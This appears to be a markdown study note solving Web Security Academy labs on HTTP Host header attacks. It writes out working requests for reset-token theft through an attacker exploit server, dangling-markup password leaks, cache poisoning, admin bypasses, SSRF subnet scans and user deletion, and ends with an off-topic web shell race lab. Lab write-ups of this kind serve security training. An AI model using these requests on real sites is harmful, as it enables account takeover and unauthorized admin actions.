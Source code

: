 # HTTP Host Header Attack
HTTP Host header attacks exploit vulnerable websites that handle the value of the Host header in an unsafe way. If the server implicitly trusts the Host header, and fails to validate or escape it properly, an attacker may be able to use this input to inject harmful payloads that manipulate server-side behavior.

## How to test for vulnerabilities using the HTTP Host header
- **Supply an arbitrary Host header:** add arbitrary port value
- **Check for flawed validation**
- **Inject duplicate Host headers**
- **Supply an absolute URL**
- **Indenting HTTP headers with a space character**
- **Inject host override headers:** `X-Host`, `X-Forwarded-Server`, `X-HTTP-Host-Override`, `Forwarded`, `X-Forwarded-Host`

### LAB: Basic password reset poisoning
Notice the reset password function will send an email with a link containing the value of the `Host` header and the token to the client. Send a reset password request for user `carlos` with the `Host` header value set to our exploit server:

    POST /forgot-password HTTP/2
    Host: exploit-0aba006a0360a28181024c3601cf0036.exploit-server.net/exploit

    csrf=uT5JUzeQyGuAdMlLJ6Lbk4djBrKqWd3E&username=carlos

After Carlos click on the link, visit the log page to obtain the token. Use the token to reset Carlos password and login to his account.

### LAB: Password reset poisoning via dangling markup
Notice the `Host` header at `POST /forgot-password` accepts arbitrary port value and reflects it inside the `href` attribute of the `a` tag. Use danling markup to observe the reset password appearing after the `a` tag:

    POST /forgot-password HTTP/2
    Host: 0a7500ac048205b380390887003600a4.web-security-academy.net:'<a href="//exploit-0ad30065047505668093072501d70058.exploit-server.net/?

    csrf=cNDtaTqwnnnI2PMPmNJoTN8480qllGpl&username=carlos

After Carlos click on the link, visit our log page to view the request:

    "GET /?/login'>click+here</a>+to+login+with+your+new+password:+NJZtqurfeu</p><p>Thanks,<br/>Support+team</p><i>This+email+has+been+scanned+by+the+MacCarthy+Email+Security+service</i> HTTP/1.1" 200

Retrieve the password and login to Carlos' account.

### LAB: Web cache poisoning via ambiguous requests
Notice the `Host` value is reflected inside a script `src` attribute. When sending a request with 2 `Host` header, the second value is reflected inside the script `src` attribute. Send this request:

    GET / HTTP/1.1
    Host: 0a7000b6043a95d480210d90001600a5.h1-web-security-academy.net
    Host: exploit-0a2f00030419953180010ce101190006.exploit-server.net/exploit#

However the cache server only considers the first `Host` header's value as a cache key. Resend this request to make the cache server store it. Now when the victim visits the home page, he is served with our malicious script at the exploit server:

    alert(document.cookie)

### LAB: Host header authentication bypass
Notice when accessing `/admin`, we are restricted with this reason:

    Admin interface only available to local users

This suggested that the admin interface can be accessed if we can trick the server into thinking that we are local users. Send this request:

    GET /admin HTTP/2
    Host: localhost

Now we successfully access the admin interface and found an endpoint to delete user Carlos. Send this request to delete him:

    GET /admin/delete?username=carlos HTTP/2
    Host: localhost

### LAB: Routing-based SSRF
Change the `Host` header of the `GET / HTTP/2` request to use our Burp's Collaborator payload. Send the request and notice the HTTP requesting to our server. This indicates that, we can make the middleware issue a request to an arbitrary server.
Send this request to Intruder, deselect the `Update Host header to match target`. Now create a sniper attack for every IP address in the subnet 192.168.0.0/24. Notice 1 IP address is given us a redirection to the admin interface. Use the found IP to view the admin interface:

    GET /admin HTTP/2
    Host: 192.168.0.101

Now send the delete user request to successfully delete user Carlos:

    POST /admin/delete HTTP/2
    Host: 192.168.0.101

    csrf=RX7lsL6eVBl3Cjnqp6gFiTeFkVPTz2DL&username=carlos

### LAB: SSRF via flawed request parsing
Notice when supplying the target request with the absolute URL, the request is no longer blocked when modifying the `Host` header. Send this request and observe that we can make the middleware issue request to an arbitrary server:

    GET https://0a32000d03ee7e80818fbb8300c0005c.web-security-academy.net/ HTTP/2
    Host: 2y1a02ux3fmrhlpbx6cqqja6dxjq7kv9.oastify.com

Send this request to Intruder, deselect the `Update Host header to match target`. Now create a sniper attack for every IP address in the subnet 192.168.0.0/24. Notice 1 IP address is given us a redirection to the admin interface. Use the found IP to view the admin interface:

    GET https://0a32000d03ee7e80818fbb8300c0005c.web-security-academy.net/admin HTTP/2
    Host: 192.168.0.181

Now send the delete user request to successfully delete user Carlos:

    POST https://0a32000d03ee7e80818fbb8300c0005c.web-security-academy.net/admin/delete HTTP/2
    Host: 192.168.0.181

    csrf=PGU6qglOQEUM9zLMBek6gi355yHPkkCH&username=carlos

### LAB: Host validation bypass via connection state attack
Send the `GET / HTTP/1.1` to Repeater. Duplicate the request and modify it to:

    GET /admin HTTP/1.1
    Host: 192.168.0.1

Group the 2 tabs and `Send in sequence (single connection)`. Notice the admin interface appears. Modify the second request to:

    POST /admin/delete HTTP/1.1
    Host: 192.168.0.1

    csrf=ibqNTHzoorRrNKoUlOPGHLrqcNoezrE0&username=carlos

Resend the group to successfully delete user Carlos.

### LAB: Web shell upload via race condition
Upload a normal JPG file and observe that we can access it via:

    GET /files/avatars/test.jpg HTTP/2

Upload the `test.php` file. Send that request to Repeater. Change the previous request to:

    GET /files/avatars/test.php HTTP/2

Group the 2 tabs into a group (might need to duplicate the second request several times). Now send the group in parallel. Notice in 1 of the `GET /files/avatars/test.php` request, there is a response with Carlos' secret. Submit it to solve the lab.